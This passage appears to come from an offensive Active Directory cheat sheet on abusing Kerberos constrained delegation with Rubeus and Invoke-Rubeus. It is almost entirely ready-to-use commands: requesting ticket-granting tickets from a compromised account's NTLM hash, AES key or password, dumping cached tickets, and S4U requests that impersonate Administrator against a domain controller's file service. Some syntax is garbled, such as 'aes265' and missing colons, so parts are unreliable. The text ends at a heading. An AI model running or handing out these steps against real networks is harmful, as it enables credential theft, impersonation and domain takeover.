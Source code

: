 OR

###### If you have the NTLM hash for the compromised account

    Rubeus.exe asktgt /user:[User] /ntlm:[NTLM Hash] OR /aes265[aes265 Hash]

# If you have the aes265 hash for the compromised account

    Rubeus.exe asktgt /user:[User] /aes265[aes265 Hash]

###### If you have the plain text password

    rubeus.exe asktgt /user:[User] /password:[Password]

### 2) Invoke-Rubeus

##### Triage current tickets

    Invoke-Rubeus -Command "triage"

##### Dump the systems TGT

    Invoke-Rubeus -Command "dump /luid:[LUID] /service:[krbtgt] /user:[Hostname] /nowrap"

OR
##### If you have the NTLM hash for the compromised account

    Invoke-Rubeus -Command "asktgt /user:[User] /ntlm:[NTLM Hash] OR /aes265[aes265 Hash]"

##### If you have the aes265 hash for the compromised account

    Invoke-Rubeus -Command "asktgt /user:[User] /aes265[aes265 Hash]"

##### If you have the plain text password

    Invoke-Rubeus -Command "asktgt /user:[User] /password:[Password]"

## Obtain TGS for service

### 1) Rubeus

##### Use obtained TGT to request a TGS ticket for the delegated service and impersonate another user

    Rubeus.exe s4u /impersonateuser:[User] /msdsspn:[SPN/FQDN] /user:[User] /ticket:[Base64 ticket] /nowrap

##### Example


    Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:cifs/dc01.security.local /user:srv01$ /ticket:[Base64 ticket] /nowrap

### 2) Invoke-Rubeus
